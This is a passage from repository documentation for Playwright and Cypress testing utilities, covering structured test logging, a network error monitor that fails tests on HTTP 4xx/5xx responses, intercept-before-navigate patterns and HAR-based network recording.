  await log.step('ACT: Perform user action');
  await page.goto(`/users/${user.id}`);
  await page.click('#edit');
  await page.fill('#name', 'Updated Name');
  await page.click('#save');

  await log.step('ASSERT: Verify changes');
  await expect(page.getByText('Updated Name')).toBeVisible();

  // In Playwright UI, each step is collapsible
});
```

**Key Points**:

- `log.step()` creates collapsible sections
- Organize by Arrange-Act-Assert
- Steps visible in Playwright trace viewer
- Better debugging when tests fail

### Example 4: Test Step Decorators

**Context**: Create collapsible test steps in Playwright UI using decorators.

**Page Object Methods with @methodTestStep:**

```typescript
import { methodTestStep } from '@seontechnologies/playwright-utils';

class TodoPage {
  constructor(private page: Page) {
    this.name = 'TodoPage';
  }

  readonly name: string;

  @methodTestStep('Add todo item')
  async addTodo(text: string) {
    await log.info(`Adding todo: ${text}`);
    const newTodo = this.page.getByPlaceholder('What needs to be done?');
    await newTodo.fill(text);
    await newTodo.press('Enter');
    await log.step('step within a decorator');
    await log.success(`Added todo: ${text}`);
  }

  @methodTestStep('Get all todos')
  async getTodos() {
    await log.info('Getting all todos');
    return this.page.getByTestId('todo-title');
  }
}
```

**Function Helpers with functionTestStep:**

```typescript
import { functionTestStep } from '@seontechnologies/playwright-utils';

// Define todo items for the test
const TODO_ITEMS = ['buy groceries', 'pay bills', 'schedule meeting'];

const createDefaultTodos = functionTestStep('Create default todos', async (page: Page) => {
  await log.info('Creating default todos');
  await log.step('step within a functionWrapper');
  const todoPage = new TodoPage(page);

  for (const item of TODO_ITEMS) {
    await todoPage.addTodo(item);
  }

  await log.success('Created all default todos');
});

const checkNumberOfTodosInLocalStorage = functionTestStep('Check total todos count fn-step', async (page: Page, expected: number) => {
  await log.info(`Verifying todo count: ${expected}`);
  const result = await page.waitForFunction((e) => JSON.parse(localStorage['react-todos']).length === e, expected);
  await log.success(`Verified todo count: ${expected}`);
  return result;
});
```

### Example 5: File Logging

**Context**: Enable file logging for persistent logs.

**Implementation**:

```typescript
// playwright/support/fixtures.ts
import { test as base } from '@playwright/test';
import { log, captureTestContext } from '@seontechnologies/playwright-utils';

// Configure file logging globally
log.configure({
  fileLogging: {
    enabled: true,
    outputDir: 'playwright-logs/organized-logs',
    forceConsolidated: false, // One file per test
  },
});

// Extend base test with file logging context capture
export const test = base.extend({
  // Auto-capture test context for file logging
  autoTestContext: [
    async ({}, use, testInfo) => {
      captureTestContext(testInfo);
      await use(undefined);
    },
    { auto: true },
  ],
});
```

### Example 6: Integration with Auth and API

**Context**: Log authenticated API requests with tokens (safely).

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

// Helper to create safe token preview
function createTokenPreview(token: string): string {
  if (!token || token.length < 10) return '[invalid]';
  return `${token.slice(0, 6)}...${token.slice(-4)}`;
}

test('should log auth flow', async ({ authToken, apiRequest }) => {
  await log.info(`Using token: ${createTokenPreview(authToken)}`);

  await log.step('Fetch protected resource');
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/protected',
    headers: { Authorization: `Bearer ${authToken}` },
  });

  await log.debug({
    status,
    bodyPreview: {
      id: body.id,
      recordCount: body.data?.length,
    },
  });

  await log.success('Protected resource accessed successfully');
});
```

**Key Points**:

- Never log full tokens (security risk)
- Use preview functions for sensitive data
- Combine with auth and API utilities
- Log at appropriate detail level

## Configuration

**Defaults:** console logging enabled, file logging disabled.

```typescript
// Enable file logging in config
log.configure({
  console: true, // default
  fileLogging: {
    enabled: true,
    outputDir: 'playwright-logs',
    forceConsolidated: false, // One file per test
  },
});

// Per-test override
await log.info('Message', {
  console: { enabled: false },
  fileLogging: { enabled: true },
});
```

### Environment Variables

```bash
# Disable all logging
SILENT=true

# Disable only file logging
DISABLE_FILE_LOGS=true

# Disable only console logging
DISABLE_CONSOLE_LOGS=true
```

### Level Filtering

```typescript
log.configure({
  level: 'warning', // Only warning, error levels will show
});

// Available levels (in priority order):
// debug < info < step < success < warning < error
```

### Sync Methods

For non-test contexts (global setup, utility functions):

```typescript
// Use sync methods when async/await isn't available
log.infoSync('Initializing configuration');
log.successSync('Environment configured');
log.errorSync('Setup failed');
```

## Log Levels Guide

| Level     | When to Use                         | Shows in Report   | Shows in Console |
| --------- | ----------------------------------- | ----------------- | ---------------- |
| `step`    | Test organization, major actions    | Collapsible steps | Yes              |
| `info`    | General information, state changes  | Yes               | Yes              |
| `success` | Successful operations               | Yes               | Yes              |
| `warning` | Non-critical issues, skipped checks | Yes               | Yes              |
| `error`   | Failures, exceptions                | Yes               | Configurable     |
| `debug`   | Detailed data, objects              | Yes (attached)    | Configurable     |

## Comparison with console.log

| console.log             | log Utility               |
| ----------------------- | ------------------------- |
| Not in reports          | Appears in reports        |
| No test steps           | Creates collapsible steps |
| Manual JSON.stringify() | Auto-formats objects      |
| No log levels           | 6 log levels              |
| Lost in CI output       | Preserved in artifacts    |

## Related Fragments

- `overview.md` - Basic usage and imports
- `api-request.md` - Log API requests
- `auth-session.md` - Log auth flow (safely)
- `recurse.md` - Log polling progress

## Anti-Patterns

**DON'T log objects in steps:**

```typescript
await log.step({ user: 'test', action: 'create' }); // Shows empty in UI
```

**DO use strings for steps, objects for debug:**

```typescript
await log.step('Creating user: test'); // Readable in UI
await log.debug({ user: 'test', action: 'create' }); // Detailed data
```

**DON'T log sensitive data:**

```typescript
await log.info(`Password: ${password}`); // Security risk!
await log.info(`Token: ${authToken}`); // Full token exposed!
```

**DO use previews or omit sensitive data:**

```typescript
await log.info('User authenticated successfully'); // No sensitive data
await log.debug({ tokenPreview: token.slice(0, 6) + '...' });
```

**DON'T log excessively in loops:**

```typescript
for (const item of items) {
  await log.info(`Processing ${item.id}`); // 100 log entries!
}
```

**DO log summary or use debug level:**

```typescript
await log.step(`Processing ${items.length} items`);
await log.debug({ itemIds: items.map((i) => i.id) }); // One log entry
```
```

## File: `src/agents/bmad-tea/resources/knowledge/network-error-monitor.md`
```markdown
# Network Error Monitor

## Principle

Automatically detect and fail tests when HTTP 4xx/5xx errors occur during execution. Act like Sentry for tests - catch silent backend failures even when UI passes assertions.

## Rationale

Traditional Playwright tests focus on UI:

- Backend 500 errors ignored if UI looks correct
- Silent failures slip through
- No visibility into background API health
- Tests pass while features are broken

The `network-error-monitor` provides:

- **Automatic detection**: All HTTP 4xx/5xx responses tracked
- **Test failures**: Fail tests with backend errors (even if UI passes)
- **Structured artifacts**: JSON reports with error details
- **Smart opt-out**: Disable for validation tests expecting errors
- **Deduplication**: Group repeated errors by pattern
- **Domino effect prevention**: Limit test failures per error pattern
- **Respects test status**: Won't suppress actual test failures

## Quick Start

```typescript
import { test } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';

// That's it! Network monitoring is automatically enabled
test('my test', async ({ page }) => {
  await page.goto('/dashboard');
  // If any HTTP 4xx/5xx errors occur, the test will fail
});
```

## Pattern Examples

### Example 1: Basic Auto-Monitoring

**Context**: Automatically fail tests when backend errors occur.

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';

// Monitoring automatically enabled
test('should load dashboard', async ({ page }) => {
  await page.goto('/dashboard');
  await expect(page.locator('h1')).toContainText('Dashboard');

  // Passes if no HTTP errors
  // Fails if any 4xx/5xx errors detected with clear message:
  //    "Network errors detected: 2 request(s) failed"
  //    Failed requests:
  //      GET 500 https://api.example.com/users
  //      POST 503 https://api.example.com/metrics
});
```

**Key Points**:

- Zero setup - auto-enabled for all tests
- Fails on any 4xx/5xx response
- Structured error message with URLs and status codes
- JSON artifact attached to test report

### Example 2: Opt-Out for Validation Tests

**Context**: Some tests expect errors (validation, error handling, edge cases).

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';

// Opt-out with annotation
test('should show error on invalid input', { annotation: [{ type: 'skipNetworkMonitoring' }] }, async ({ page }) => {
  await page.goto('/form');
  await page.click('#submit'); // Triggers 400 error

  // Monitoring disabled - test won't fail on 400
  await expect(page.getByText('Invalid input')).toBeVisible();
});

// Or opt-out entire describe block
test.describe('error handling', { annotation: [{ type: 'skipNetworkMonitoring' }] }, () => {
  test('handles 404', async ({ page }) => {
    // All tests in this block skip monitoring
  });

  test('handles 500', async ({ page }) => {
    // Monitoring disabled
  });
});
```

**Key Points**:

- Use annotation `{ type: 'skipNetworkMonitoring' }`
- Can opt-out single test or entire describe block
- Monitoring still active for other tests
- Perfect for intentional error scenarios

### Example 3: Respects Test Status

**Context**: The monitor respects final test statuses to avoid suppressing important test outcomes.

**Behavior by test status:**

- **`failed`**: Network errors logged as additional context, not thrown
- **`timedOut`**: Network errors logged as additional context
- **`skipped`**: Network errors logged, skip status preserved
- **`interrupted`**: Network errors logged, interrupted status preserved
- **`passed`**: Network errors throw and fail the test

**Example with test.skip():**

```typescript
test('feature gated test', async ({ page }) => {
  const featureEnabled = await checkFeatureFlag();
  test.skip(!featureEnabled, 'Feature not enabled');
  // If skipped, network errors won't turn this into a failure
  await page.goto('/new-feature');
});
```

### Example 4: Excluding Legitimate Errors

**Context**: Some endpoints legitimately return 4xx/5xx responses.

**Implementation**:

```typescript
import { test as base } from '@playwright/test';
import { createNetworkErrorMonitorFixture } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';

export const test = base.extend(
  createNetworkErrorMonitorFixture({
    excludePatterns: [
      /email-cluster\/ml-app\/has-active-run/, // ML service returns 404 when no active run
      /idv\/session-templates\/list/, // IDV service returns 404 when not configured
      /sentry\.io\/api/, // External Sentry errors should not fail tests
    ],
  }),
);
```

**For merged fixtures:**

```typescript
import { test as base, mergeTests } from '@playwright/test';
import { createNetworkErrorMonitorFixture } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';

const networkErrorMonitor = base.extend(
  createNetworkErrorMonitorFixture({
    excludePatterns: [/analytics\.google\.com/, /cdn\.example\.com/],
  }),
);

export const test = mergeTests(authFixture, networkErrorMonitor);
```

### Example 5: Preventing Domino Effect

**Context**: One failing endpoint shouldn't fail all tests.

**Implementation**:

```typescript
import { test as base } from '@playwright/test';
import { createNetworkErrorMonitorFixture } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';

const networkErrorMonitor = base.extend(
  createNetworkErrorMonitorFixture({
    excludePatterns: [], // Required when using maxTestsPerError
    maxTestsPerError: 1, // Only first test fails per error pattern, rest just log
  }),
);
```

**How it works:**

When `/api/v2/case-management/cases` returns 500:

- **First test** encountering this error: **FAILS** with clear error message
- **Subsequent tests** encountering same error: **PASSES** but logs warning

Error patterns are grouped by `method + status + base path`:

- `GET /api/v2/case-management/cases/123` -> Pattern: `GET:500:/api/v2/case-management`
- `GET /api/v2/case-management/quota` -> Pattern: `GET:500:/api/v2/case-management` (same group!)
- `POST /api/v2/case-management/cases` -> Pattern: `POST:500:/api/v2/case-management` (different group!)

**Why include HTTP method?** A GET 404 vs POST 404 might represent different issues:

- `GET 404 /api/users/123` -> User not found (expected in some tests)
- `POST 404 /api/users` -> Endpoint doesn't exist (critical error)

**Output for subsequent tests:**

```
Warning: Network errors detected but not failing test (maxTestsPerError limit reached):
  GET 500 https://api.example.com/api/v2/case-management/cases
```

**Recommended configuration:**

```typescript
createNetworkErrorMonitorFixture({
  excludePatterns: [...], // Required - known broken endpoints (can be empty [])
  maxTestsPerError: 1     // Stop domino effect (requires excludePatterns)
})
```

**Understanding worker-level state:**

Error pattern counts are stored in worker-level global state:

```typescript
// test-file-1.spec.ts (runs in Worker 1)
test('test A', () => {
  /* triggers GET:500:/api/v2/cases */
}); // FAILS

// test-file-2.spec.ts (runs later in Worker 1)
test('test B', () => {
  /* triggers GET:500:/api/v2/cases */
}); // PASSES (limit reached)

// test-file-3.spec.ts (runs in Worker 2 - different worker)
test('test C', () => {
  /* triggers GET:500:/api/v2/cases */
}); // FAILS (fresh worker)
```

### Example 6: Integration with Merged Fixtures

**Context**: Combine network-error-monitor with other utilities.

**Implementation**:

```typescript
// playwright/support/merged-fixtures.ts
import { mergeTests } from '@playwright/test';
import { test as authFixture } from '@seontechnologies/playwright-utils/auth-session/fixtures';
import { test as networkErrorMonitorFixture } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';

export const test = mergeTests(
  authFixture,
  networkErrorMonitorFixture,
  // Add other fixtures
);

// In tests
import { test, expect } from '../support/merged-fixtures';

test('authenticated with monitoring', async ({ page, authToken }) => {
  // Both auth and network monitoring active
  await page.goto('/protected');

  // Fails if backend returns errors during auth flow
});
```

**Key Points**:

- Combine with `mergeTests`
- Works alongside all other utilities
- Monitoring active automatically
- No extra setup needed

### Example 7: Artifact Structure

**Context**: Debugging failed tests with network error artifacts.

When test fails due to network errors, artifact attached:

```json
[
  {
    "url": "https://api.example.com/users",
    "status": 500,
    "method": "GET",
    "timestamp": "2025-11-10T12:34:56.789Z"
  },
  {
    "url": "https://api.example.com/metrics",
    "status": 503,
    "method": "POST",
    "timestamp": "2025-11-10T12:34:57.123Z"
  }
]
```

## Implementation Details

### How It Works

1. **Fixture Extension**: Uses Playwright's `base.extend()` with `auto: true`
2. **Response Listener**: Attaches `page.on('response')` listener at test start
3. **Multi-Page Monitoring**: Automatically monitors popups and new tabs via `context.on('page')`
4. **Error Collection**: Captures 4xx/5xx responses, checking exclusion patterns
5. **Try/Finally**: Ensures error processing runs even if test fails early
6. **Status Check**: Only throws errors if test hasn't already reached final status
7. **Artifact**: Attaches JSON file to test report for debugging

### Performance

The monitor has minimal performance impact:

- Event listener overhead: ~0.1ms per response
- Memory: ~200 bytes per unique error
- No network delay (observes responses, doesn't intercept them)

## Comparison with Alternatives

| Approach                    | Network Error Monitor | Manual afterEach      |
| --------------------------- | --------------------- | --------------------- |
| **Setup Required**          | Zero (auto-enabled)   | Every test file       |
| **Catches Silent Failures** | Yes                   | Yes (if configured)   |
| **Structured Artifacts**    | JSON attached         | Custom impl           |
| **Test Failure Safety**     | Try/finally           | afterEach may not run |
| **Opt-Out Mechanism**       | Annotation            | Custom logic          |
| **Status Aware**            | Respects skip/failed  | No                    |

## When to Use

**Auto-enabled for:**

- All E2E tests
- Integration tests
- Any test hitting real APIs

**Opt-out for:**

- Validation tests (expecting 4xx)
- Error handling tests (expecting 5xx)
- Offline tests (network-recorder playback)

## Troubleshooting

### Test fails with network errors but I don't see them in my app

The errors might be happening during page load or in background polling. Check the `network-errors.json` artifact in your test report for full details including timestamps.

### False positives from external services

Configure exclusion patterns as shown in the "Excluding Legitimate Errors" section above.

### Network errors not being caught

Ensure you're importing the test from the correct fixture:

```typescript
// Correct
import { test } from '@seontechnologies/playwright-utils/network-error-monitor/fixtures';

// Wrong - this won't have network monitoring
import { test } from '@playwright/test';
```

## Related Fragments

- `overview.md` - Installation and fixtures
- `fixtures-composition.md` - Merging with other utilities
- `error-handling.md` - Traditional error handling patterns

## Anti-Patterns

**DON'T opt out of monitoring globally:**

```typescript
// Every test skips monitoring
test.use({ annotation: [{ type: 'skipNetworkMonitoring' }] });
```

**DO opt-out only for specific error tests:**

```typescript
test.describe('error scenarios', { annotation: [{ type: 'skipNetworkMonitoring' }] }, () => {
  // Only these tests skip monitoring
});
```

**DON'T ignore network error artifacts:**

```typescript
// Test fails, artifact shows 500 errors
// Developer: "Works on my machine" ¯\_(ツ)_/¯
```

**DO check artifacts for root cause:**

```typescript
// Read network-errors.json artifact
// Identify failing endpoint: GET /api/users -> 500
// Fix backend issue before merging
```
```

## File: `src/agents/bmad-tea/resources/knowledge/network-first.md`
```markdown
# Network-First Safeguards

## Principle

Register network interceptions **before** any navigation or user action. Store the interception promise and await it immediately after the triggering step. Replace implicit waits with deterministic signals based on network responses, spinner disappearance, or event hooks.

## Rationale

The most common source of flaky E2E tests is **race conditions** between navigation and network interception:

- Navigate then intercept = missed requests (too late)
- No explicit wait = assertion runs before response arrives
- Hard waits (`waitForTimeout(3000)`) = slow, unreliable, brittle

Network-first patterns provide:

- **Zero race conditions**: Intercept is active before triggering action
- **Deterministic waits**: Wait for actual response, not arbitrary timeouts
- **Actionable failures**: Assert on response status/body, not generic "element not found"
- **Speed**: No padding with extra wait time

## Pattern Examples

### Example 1: Intercept Before Navigate Pattern

**Context**: The foundational pattern for all E2E tests. Always register route interception **before** the action that triggers the request (navigation, click, form submit).

**Implementation**:

```typescript
// ✅ CORRECT: Intercept BEFORE navigate
test('user can view dashboard data', async ({ page }) => {
  // Step 1: Register interception FIRST
  const usersPromise = page.waitForResponse((resp) => resp.url().includes('/api/users') && resp.status() === 200);

  // Step 2: THEN trigger the request
  await page.goto('/dashboard');

  // Step 3: THEN await the response
  const usersResponse = await usersPromise;
  const users = await usersResponse.json();

  // Step 4: Assert on structured data
  expect(users).toHaveLength(10);
  await expect(page.getByText(users[0].name)).toBeVisible();
});

// Cypress equivalent
describe('Dashboard', () => {
  it('should display users', () => {
    // Step 1: Register interception FIRST
    cy.intercept('GET', '**/api/users').as('getUsers');

    // Step 2: THEN trigger
    cy.visit('/dashboard');

    // Step 3: THEN await
    cy.wait('@getUsers').then((interception) => {
      // Step 4: Assert on structured data
      expect(interception.response.statusCode).to.equal(200);
      expect(interception.response.body).to.have.length(10);
      cy.contains(interception.response.body[0].name).should('be.visible');
    });
  });
});

// ❌ WRONG: Navigate BEFORE intercept (race condition!)
test('flaky test example', async ({ page }) => {
  await page.goto('/dashboard'); // Request fires immediately

  const usersPromise = page.waitForResponse('/api/users'); // TOO LATE - might miss it
  const response = await usersPromise; // May timeout randomly
});
```

**Key Points**:

- Playwright: Use `page.waitForResponse()` with URL pattern or predicate **before** `page.goto()` or `page.click()`
- Cypress: Use `cy.intercept().as()` **before** `cy.visit()` or `cy.click()`
- Store promise/alias, trigger action, **then** await response
- This prevents 95% of race-condition flakiness in E2E tests

### Example 2: HAR Capture for Debugging

**Context**: When debugging flaky tests or building deterministic mocks, capture real network traffic with HAR files. Replay them in tests for consistent, offline-capable test runs.

**Implementation**:

```typescript
// playwright.config.ts - Enable HAR recording
export default defineConfig({
  use: {
    // Record HAR on first run
    recordHar: { path: './hars/', mode: 'minimal' },
    // Or replay HAR in tests
    // serviceWorkers: 'block',
  },
});

// Capture HAR for specific test
test('capture network for order flow', async ({ page, context }) => {
  // Start recording
  await context.routeFromHAR('./hars/order-flow.har', {
    url: '**/api/**',
    update: true, // Update HAR with new requests
  });

  await page.goto('/checkout');
  await page.fill('[data-testid="credit-card"]', '4111111111111111');
  await page.click('[data-testid="submit-order"]');
  await expect(page.getByText('Order Confirmed')).toBeVisible();

  // HAR saved to ./hars/order-flow.har
});

// Replay HAR for deterministic tests (no real API needed)
test('replay order flow from HAR', async ({ page, context }) => {
  // Replay captured HAR
  await context.routeFromHAR('./hars/order-flow.har', {
    url: '**/api/**',
    update: false, // Read-only mode
  });

  // Test runs with exact recorded responses - fully deterministic
  await page.goto('/checkout');
  await page.fill('[data-testid="credit-card"]', '4111111111111111');
  await page.click('[data-testid="submit-order"]');
  await expect(page.getByText('Order Confirmed')).toBeVisible();
});

// Custom mock based on HAR insights
test('mock order response based on HAR', async ({ page }) => {
  // After analyzing HAR, create focused mock
  await page.route('**/api/orders', (route) =>
    route.fulfill({
      status: 200,
      contentType: 'application/json',
      body: JSON.stringify({
        orderId: '12345',
        status: 'confirmed',
        total: 99.99,
      }),
    }),
  );

  await page.goto('/checkout');
  await page.click('[data-testid="submit-order"]');
  await expect(page.getByText('Order #12345')).toBeVisible();
});
```

**Key Points**:

- HAR files capture real request/response pairs for analysis
- `update: true` records new traffic; `update: false` replays existing
- Replay mode makes tests fully deterministic (no upstream API needed)
- Use HAR to understand API contracts, then create focused mocks

### Example 3: Network Stub with Edge Cases

**Context**: When testing error handling, timeouts, and edge cases, stub network responses to simulate failures. Test both happy path and error scenarios.

**Implementation**:

```typescript
// Test happy path
test('order succeeds with valid data', async ({ page }) => {
  await page.route('**/api/orders', (route) =>
    route.fulfill({
      status: 200,
      contentType: 'application/json',
      body: JSON.stringify({ orderId: '123', status: 'confirmed' }),
    }),
  );

  await page.goto('/checkout');
  await page.click('[data-testid="submit-order"]');
  await expect(page.getByText('Order Confirmed')).toBeVisible();
});

// Test 500 error
test('order fails with server error', async ({ page }) => {
  // Listen for console errors (app should log gracefully)
  const consoleErrors: string[] = [];
  page.on('console', (msg) => {
    if (msg.type() === 'error') consoleErrors.push(msg.text());
  });

  // Stub 500 error
  await page.route('**/api/orders', (route) =>
    route.fulfill({
      status: 500,
      contentType: 'application/json',
      body: JSON.stringify({ error: 'Internal Server Error' }),
    }),
  );

  await page.goto('/checkout');
  await page.click('[data-testid="submit-order"]');

  // Assert UI shows error gracefully
  await expect(page.getByText('Something went wrong')).toBeVisible();
  await expect(page.getByText('Please try again')).toBeVisible();

  // Verify error logged (not thrown)
  expect(consoleErrors.some((e) => e.includes('Order failed'))).toBeTruthy();
});

// Test network timeout
test('order times out after 10 seconds', async ({ page }) => {
  // Stub delayed response (never resolves within timeout)
  await page.route(
    '**/api/orders',
    (route) => new Promise(() => {}), // Never resolves - simulates timeout
  );

  await page.goto('/checkout');
  await page.click('[data-testid="submit-order"]');

  // App should show timeout message after configured timeout
  await expect(page.getByText('Request timed out')).toBeVisible({ timeout: 15000 });
});

// Test partial data response
test('order handles missing optional fields', async ({ page }) => {
  await page.route('**/api/orders', (route) =>
    route.fulfill({
      status: 200,
      contentType: 'application/json',
      // Missing optional fields like 'trackingNumber', 'estimatedDelivery'
      body: JSON.stringify({ orderId: '123', status: 'confirmed' }),
    }),
  );

  await page.goto('/checkout');
  await page.click('[data-testid="submit-order"]');

  // App should handle gracefully - no crash, shows what's available
  await expect(page.getByText('Order Confirmed')).toBeVisible();
  await expect(page.getByText('Tracking information pending')).toBeVisible();
});

// Cypress equivalents
describe('Order Edge Cases', () => {
  it('should handle 500 error', () => {
    cy.intercept('POST', '**/api/orders', {
      statusCode: 500,
      body: { error: 'Internal Server Error' },
    }).as('orderFailed');

    cy.visit('/checkout');
    cy.get('[data-testid="submit-order"]').click();
    cy.wait('@orderFailed');
    cy.contains('Something went wrong').should('be.visible');
  });

  it('should handle timeout', () => {
    cy.intercept('POST', '**/api/orders', (req) => {
      req.reply({ delay: 20000 }); // Delay beyond app timeout
    }).as('orderTimeout');

    cy.visit('/checkout');
    cy.get('[data-testid="submit-order"]').click();
    cy.contains('Request timed out', { timeout: 15000 }).should('be.visible');
  });
});
```

**Key Points**:

- Stub different HTTP status codes (200, 400, 500, 503)
- Simulate timeouts with `delay` or non-resolving promises
- Test partial/incomplete data responses
- Verify app handles errors gracefully (no crashes, user-friendly messages)

### Example 4: Deterministic Waiting

**Context**: Never use hard waits (`waitForTimeout(3000)`). Always wait for explicit signals: network responses, element state changes, or custom events.

**Implementation**:

```typescript
// ✅ GOOD: Wait for response with predicate
test('wait for specific response', async ({ page }) => {
  const responsePromise = page.waitForResponse((resp) => resp.url().includes('/api/users') && resp.status() === 200);

  await page.goto('/dashboard');
  const response = await responsePromise;

  expect(response.status()).toBe(200);
  await expect(page.getByText('Dashboard')).toBeVisible();
});

// ✅ GOOD: Wait for multiple responses
test('wait for all required data', async ({ page }) => {
  const usersPromise = page.waitForResponse('**/api/users');
  const productsPromise = page.waitForResponse('**/api/products');
  const ordersPromise = page.waitForResponse('**/api/orders');

  await page.goto('/dashboard');

  // Wait for all in parallel
  const [users, products, orders] = await Promise.all([usersPromise, productsPromise, ordersPromise]);

  expect(users.status()).toBe(200);
  expect(products.status()).toBe(200);
  expect(orders.status()).toBe(200);
});

// ✅ GOOD: Wait for spinner to disappear
test('wait for loading indicator', async ({ page }) => {
  await page.goto('/dashboard');

  // Wait for spinner to disappear (signals data loaded)
  await expect(page.getByTestId('loading-spinner')).not.toBeVisible();
  await expect(page.getByText('Dashboard')).toBeVisible();
});

// ✅ GOOD: Wait for custom event (advanced)
test('wait for custom ready event', async ({ page }) => {
  let appReady = false;
  page.on('console', (msg) => {
    if (msg.text() === 'App ready') appReady = true;
  });

  await page.goto('/dashboard');

  // Poll until custom condition met
  await page.waitForFunction(() => appReady, { timeout: 10000 });

  await expect(page.getByText('Dashboard')).toBeVisible();
});

// ❌ BAD: Hard wait (arbitrary timeout)
test('flaky hard wait example', async ({ page }) => {
  await page.goto('/dashboard');
  await page.waitForTimeout(3000); // WHY 3 seconds? What if slower? What if faster?
  await expect(page.getByText('Dashboard')).toBeVisible(); // May fail if >3s
});

// Cypress equivalents
describe('Deterministic Waiting', () => {
  it('should wait for response', () => {
    cy.intercept('GET', '**/api/users').as('getUsers');
    cy.visit('/dashboard');
    cy.wait('@getUsers').its('response.statusCode').should('eq', 200);
    cy.contains('Dashboard').should('be.visible');
  });

  it('should wait for spinner to disappear', () => {
    cy.visit('/dashboard');
    cy.get('[data-testid="loading-spinner"]').should('not.exist');
    cy.contains('Dashboard').should('be.visible');
  });

  // ❌ BAD: Hard wait
  it('flaky hard wait', () => {
    cy.visit('/dashboard');
    cy.wait(3000); // NEVER DO THIS
    cy.contains('Dashboard').should('be.visible');
  });
});
```

**Key Points**:

- `waitForResponse()` with URL pattern or predicate = deterministic
- `waitForLoadState('networkidle')` = wait for all network activity to finish
- Wait for element state changes (spinner disappears, button enabled)
- **NEVER** use `waitForTimeout()` or `cy.wait(ms)` - always non-deterministic

### Example 5: Anti-Pattern - Navigate Then Mock

**Problem**:

```typescript
// ❌ BAD: Race condition - mock registered AFTER navigation starts
test('flaky test - navigate then mock', async ({ page }) => {
  // Navigation starts immediately
  await page.goto('/dashboard'); // Request to /api/users fires NOW

  // Mock registered too late - request already sent
  await page.route('**/api/users', (route) =>
    route.fulfill({
      status: 200,
      body: JSON.stringify([{ id: 1, name: 'Test User' }]),
    }),
  );

  // Test randomly passes/fails depending on timing
  await expect(page.getByText('Test User')).toBeVisible(); // Flaky!
});

// ❌ BAD: No wait for response
test('flaky test - no explicit wait', async ({ page }) => {
  await page.route('**/api/users', (route) => route.fulfill({ status: 200, body: JSON.stringify([]) }));

  await page.goto('/dashboard');

  // Assertion runs immediately - may fail if response slow
  await expect(page.getByText('No users found')).toBeVisible(); // Flaky!
});

// ❌ BAD: Generic timeout
test('flaky test - hard wait', async ({ page }) => {
  await page.goto('/dashboard');
  await page.waitForTimeout(2000); // Arbitrary wait - brittle

  await expect(page.getByText('Dashboard')).toBeVisible();
});
```

**Why It Fails**:

- **Mock after navigate**: Request fires during navigation, mock isn't active yet (race condition)
- **No explicit wait**: Assertion runs before response arrives (timing-dependent)
- **Hard waits**: Slow tests, brittle (fails if < timeout, wastes time if > timeout)
- **Non-deterministic**: Passes locally, fails in CI (different speeds)

**Better Approach**: Always intercept → trigger → await

```typescript
// ✅ GOOD: Intercept BEFORE navigate
test('deterministic test', async ({ page }) => {
  // Step 1: Register mock FIRST
  await page.route('**/api/users', (route) =>
    route.fulfill({
      status: 200,
      contentType: 'application/json',
      body: JSON.stringify([{ id: 1, name: 'Test User' }]),
    }),
  );

  // Step 2: Store response promise BEFORE trigger
  const responsePromise = page.waitForResponse('**/api/users');

  // Step 3: THEN trigger
  await page.goto('/dashboard');

  // Step 4: THEN await response
  await responsePromise;

  // Step 5: THEN assert (data is guaranteed loaded)
  await expect(page.getByText('Test User')).toBeVisible();
});
```

**Key Points**:

- Order matters: Mock → Promise → Trigger → Await → Assert
- No race conditions: Mock is active before request fires
- Explicit wait: Response promise ensures data loaded
- Deterministic: Always passes if app works correctly

## Integration Points

- **Used in workflows**: `*atdd` (test generation), `*automate` (test expansion), `*framework` (network setup)
- **Related fragments**:
  - `fixture-architecture.md` - Network fixture patterns
  - `data-factories.md` - API-first setup with network
  - `test-quality.md` - Deterministic test principles

## Debugging Network Issues

When network tests fail, check:

1. **Timing**: Is interception registered **before** action?
2. **URL pattern**: Does pattern match actual request URL?
3. **Response format**: Is mocked response valid JSON/format?
4. **Status code**: Is app checking for 200 vs 201 vs 204?
5. **HAR file**: Capture real traffic to understand actual API contract

```typescript
// Debug network issues with logging
test('debug network', async ({ page }) => {
  // Log all requests
  page.on('request', (req) => console.log('→', req.method(), req.url()));

  // Log all responses
  page.on('response', (resp) => console.log('←', resp.status(), resp.url()));

  await page.goto('/dashboard');
});
```

_Source: Murat Testing Philosophy (lines 94-137), Playwright network patterns, Cypress intercept best practices._
```

## File: `src/agents/bmad-tea/resources/knowledge/network-recorder.md`
```markdown
# Network Recorder Utility

## Principle

Record network traffic to HAR files during test execution, then play back from disk for offline testing. Enables frontend tests to run in complete isolation from backend services with intelligent stateful CRUD detection for realistic API behavior.

## Rationale

Traditional E2E tests require live backend services:

- Slow (real network latency)
- Flaky (backend instability affects tests)
- Expensive (full stack running for UI tests)
- Coupled (UI tests break when API changes)

HAR-based recording/playback provides:

- **True offline testing**: UI tests run without backend
- **Deterministic behavior**: Same responses every time
- **Fast execution**: No network latency
- **Stateful mocking**: CRUD operations work naturally (not just read-only)
- **Environment flexibility**: Map URLs for any environment

## Quick Start

### 1. Record Network Traffic

```typescript
// Set mode to 'record' to capture network traffic
process.env.PW_NET_MODE = 'record';

test('should add, edit and delete a movie', async ({ page, context, networkRecorder }) => {
  // Setup network recorder - it will record all network traffic
  await networkRecorder.setup(context);

  // Your normal test code
  await page.goto('/');
  await page.fill('#movie-name', 'Inception');
  await page.click('#add-movie');

  // Network traffic is automatically saved to HAR file
});
```

### 2. Playback Network Traffic

```typescript
// Set mode to 'playback' to use recorded traffic
process.env.PW_NET_MODE = 'playback';

test('should add, edit and delete a movie', async ({ page, context, networkRecorder }) => {
  // Setup network recorder - it will replay from HAR file
  await networkRecorder.setup(context);

  // Same test code runs without hitting real backend!
  await page.goto('/');
  await page.fill('#movie-name', 'Inception');
  await page.click('#add-movie');
});
```

That's it! Your tests now run completely offline using recorded network traffic.

## Pattern Examples

### Example 1: Basic Record and Playback

**Context**: The fundamental pattern - record traffic once, play back for all subsequent runs.

**Implementation**:

```typescript
import { test } from '@seontechnologies/playwright-utils/network-recorder/fixtures';
